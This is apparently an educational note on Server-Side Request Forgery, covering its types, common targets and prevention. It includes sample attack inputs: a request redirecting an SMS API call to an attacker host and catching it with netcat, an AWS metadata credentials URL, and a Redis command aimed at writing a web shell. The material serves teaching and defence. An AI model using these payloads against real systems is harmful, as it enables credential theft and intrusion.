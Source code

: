 # Server-Side Request Forgery

Server-Side Request Forgery (SSRF) is a **web security vulnerability** that allows an attacker to **trick a server into making unintended requests to internal or external resources**. Instead of directly accessing a target system, an attacker exploits a **vulnerable application’s server to send the request on their behalf**.

This type of vulnerability occurs when an attacker can coerce a web application into sending requests on their behalf to arbitrary destinations while having control of the contents of the request itself. <span style="color: inherit;">SSRF</span> vulnerabilities often arise from implementations where our web application needs to use third-party services.

### Why is SSRF Dangerous?

- Allows **bypassing network restrictions** to access internal resources.
- Can be used to **scan internal systems** for open ports and services.
- Often leads to **sensitive data exposure**, such as metadata from cloud services.
- Can be leveraged for **Remote Code Execution (RCE)** if combined with other vulnerabilities.
- May enable **exploitation of misconfigured APIs and cloud environments**.

Think, for example, of a web application that uses an external <span style="color: inherit;">API</span> to send SMS notifications to its clients. For each email, the website needs to make a web request to the SMS provider's server to send the content of the message to be sent. Since the SMS provider charges per message, they require you to add a secret key, which they pre-assign to you, to each request you make to their <span style="color: inherit;">API</span>. The <span style="color: inherit;">API</span> key serves as an authentication token and allows the provider to know to whom to bill each message. The application would work like this:

![SSRF](../../../../_resources/271d0075650cdf6499f994f99fa7eb8a.png)

By looking at the diagram above, it is easy to see where the vulnerability lies. The application exposes the `server` parameter to the users, which defines the server name of the SMS service provider. If the attacker wanted, they could simply change the value of the `server` to point to a machine they control, and your web application would happily forward the SMS request to the attacker instead of the SMS provider. As part of the forwarded message, the attacker would obtain the API key, allowing them to use the SMS service to send messages at your expense. To achieve this, the attacker would only need to make the following request to your website:

`https://www.mysite.com/sms?server=attacker.thm&msg=ABC`

This would make the vulnerable web application make a request to:

`https://attacker.thm/api/send?msg=ABC`

You could then just capture the contents of the request using Netcat:

```shell
user@BoB$ nc -lvp 80
Listening on 0.0.0.0 80
Connection received on 10.10.1.236 43830
GET /:8087/public-docs/123.pdf HTTP/1.1
Host: 10.10.10.11
User-Agent: PycURL/7.45.1 libcurl/7.83.1 OpenSSL/1.1.1q zlib/1.2.12 brotli/1.0.9 nghttp2/1.47.0
Accept: */*
```

This is a really basic case of <span style="color: inherit;">SSRF</span>. If this doesn't look that scary, <span style="color: inherit;">SSRF</span> can actually be used to do much more. In general, depending on the specifics of each scenario, <span style="color: inherit;">SSRF</span> can be used for:

- Enumerate internal networks, including IP addresses and ports.
- Abuse trust relationships between servers and gain access to otherwise restricted services.
- Interact with some non-<span style="color: inherit;">HTTP</span> services to get remote code execution (<span style="color: inherit;">RCE</span>).

&nbsp;

## How SSRF Works

1.  A web application **accepts a user-supplied URL** and fetches data from it (e.g., an image downloader or webhook service).
2.  An attacker **modifies the URL** to point to an internal or sensitive resource (e.g., internal APIs, cloud metadata endpoints, or local network services).
3.  The server **processes the request** and **returns data to the attacker**, exposing sensitive information or enabling further attacks.

**Example Scenario:**

- A web application allows users to fetch profile pictures via a URL.
    
- The attacker submits a request like:
    

```plaintext
http://localhost/admin
```

- If the application does not validate the URL properly, the server may request the **internal admin page** and return its contents to the attacker.
    

&nbsp;

## Types of SSRF Attacks

### 1\. Basic SSRF

- The attacker tricks the server into making requests to internal resources.
- Exploits **fetching mechanisms** (e.g., downloading images, webhooks, or API calls).

**Example:** An attacker submits:

```plaintext
http://127.0.0.1:8080/admin
```

If an internal admin panel is running on port `8080`, the server may return restricted data.

* * *

### 2\. Blind SSRF

- The attacker **cannot directly see the server’s response** but can infer the request's impact based on **timing differences, logs, or error messages**.
- Used to **port scan internal networks** or exfiltrate data via **out-of-band (OOB) techniques**.

**Example:**

- An attacker sends requests to `http://192.168.1.1:80` and `http://192.168.1.1:81` to check which ports are open.
- If `80` returns a faster response than `81`, they can infer that port `80` is open.

* * *

### 3\. Exploiting Cloud Metadata Services

- Many cloud platforms have a **metadata service** accessible at a known IP (`169.254.169.254`).
- Attackers use SSRF to retrieve **instance credentials, security tokens, and IAM roles**.

**Example:** Requesting:

```ruby
http://169.254.169.254/latest/meta-data/iam/security-credentials/admin-role
```

May return **AWS IAM credentials**, allowing an attacker to escalate privileges.

* * *

### 4\. SSRF to Remote Code Execution (RCE)

- If the application interacts with vulnerable services (e.g., Redis, Elasticsearch, or internal APIs), an attacker can execute **arbitrary commands**.

**Example:**

- An attacker sends a request to an **internal open Redis instance**:
    
    ```cpp
    redis://127.0.0.1:6379/CONFIG SET dbfilename shell.php
    ```
    
- If successful, they can **write a web shell** and gain remote access.
    

* * *

## Common SSRF Targets

- Internal admin panels (`http://localhost/admin`)
- Cloud metadata services (`http://169.254.169.254`)
- Internal APIs (`http://internal-api/v1/users`)
- Database services (MongoDB, Redis, Elasticsearch)
- Other internal systems (CI/CD servers, monitoring dashboards)

* * *

## How to Prevent SSRF

### 1\. Validate and Restrict User Input

- Do not allow users to provide arbitrary URLs for server-side requests.
- Implement **allowlists** (e.g., restrict requests to only trusted domains).
- Block requests to **localhost (127.0.0.1), private IP ranges, and cloud metadata services**.

### 2\. Enforce Network-Level Restrictions

- **Deny outbound traffic** from application servers to internal networks.
- Use **firewalls and security groups** to restrict access to internal services.
- Block access to `169.254.169.254` unless explicitly required.

### 3\. Use Secure APIs Instead of Direct Requests

- Instead of fetching user-supplied URLs, use **predefined and secured API calls**.
- Ensure **server-to-server communication is authenticated**.

### 4\. Implement URL Parsing and Validation

- Parse and validate URLs before making a request.
- Reject **redirections, encoded IPs, or URLs pointing to internal networks**.

**Example:**

- Convert domain names to IP addresses and check against an allowlist before processing.

### 5\. Monitor and Detect SSRF Attacks

- Log and analyze **outgoing requests from servers**.
- Implement **anomaly detection** for unexpected network requests.
- Use **Web Application Firewalls (WAFs)** to block SSRF payloads.

* * *

## Conclusion

Server-Side Request Forgery (SSRF) is a critical vulnerability that allows attackers to **access internal resources, steal cloud credentials, and bypass security controls**. Preventing SSRF requires **input validation, network restrictions, URL sanitization, and monitoring of outbound requests** to ensure that the application does not expose internal systems to unauthorized access.